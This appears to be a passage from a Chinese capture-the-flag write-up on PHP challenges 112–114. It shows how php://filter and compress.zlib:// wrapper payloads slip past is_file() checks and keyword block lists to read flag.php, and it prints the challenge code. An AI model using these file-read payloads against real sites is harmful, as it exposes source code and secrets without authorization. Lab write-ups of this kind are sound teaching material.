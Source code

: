 ```php
is_file — 判断给定文件名是否为一个正常的文件
is_file ( string $filename ) : bool
12
```

我们的目的是不能让is_file检测出是文件，并且 highlight_file可以识别为文件。这时候可以利用php伪协议。
 可以直接用不带任何过滤器的filter伪协议
 `payload:file=php://filter/resource=flag.php`
 也可以用一些没有过滤掉的编码方式和转换方式
 `payload:file=php://filter/read=convert.quoted-printable-encode/resource=flag.php`
 `file=compress.zlib://flag.php`
 `payload:file=php://filter/read=convert.iconv.utf-8.utf-16le/resource=flag.php`

## 113

```php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 
```



考察： php7.4里面的trick 

包含文件32 会溢出,参考make php great again

非预期

compress.zlib://flag.php

## 114

```PHP

error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 
```
